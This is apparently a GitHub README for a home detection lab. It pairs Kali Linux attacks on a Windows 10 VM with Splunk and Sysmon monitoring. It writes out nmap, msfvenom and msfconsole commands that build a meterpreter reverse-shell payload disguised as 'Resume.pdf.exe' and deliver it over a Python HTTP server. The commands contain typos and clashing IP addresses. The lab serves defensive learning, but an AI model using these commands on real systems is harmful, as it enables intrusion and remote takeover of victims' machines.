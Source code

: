 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and sandboxing will be different. When analyzing malware, we should not have access to the Internet.

- Testing Tools     ---> NAT, NAT Network, Bridged
- Analyzing Malware ---> Host-Only, Internal Network/LAN Segment, Not Attached

In this lab, the lab environment was not connected to the Internet because of the creation of malware with Kali Linux and the attack on the Windows machine.

1-Installation and Setup of Virtual Machines 

- Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines.
- As a network ‘NAT Network' was selected and static IP address was determined on each virtual machine.
- After installing virtual machines, I saw that they were reachable with the ‘ping’ command.
- Splunk Enterprise was installed on the Ubuntu machine to view logs.
- Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk.

2-Attack Scenario 

- First I did a port scan with 'nmap' and saw that RDP port 3389 was open.
  - nmap 192.168.10.100 -A -Pn 

- Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
  - msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

- With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
  - use exploit/multi/handler 
  - options #to see what we can configure 
  - set payload windows/x64/meterpreter/reverse_tcp 
  - set lhost 192.168.2.250 
  - set lport 4444 #this is already given 
  - exploit 

- After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
  - python3 -m http.server 9999 #make sure to run it in the directory where the malware is located 

3-Exploitation 
 
- First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
  - netstat -anob 

- After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and try some commands we want. 

4-Monitoring with Splunk 

- Since I have installed sysmon on the Windows (victim) machine and configured it correctly to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon to get more fields. 
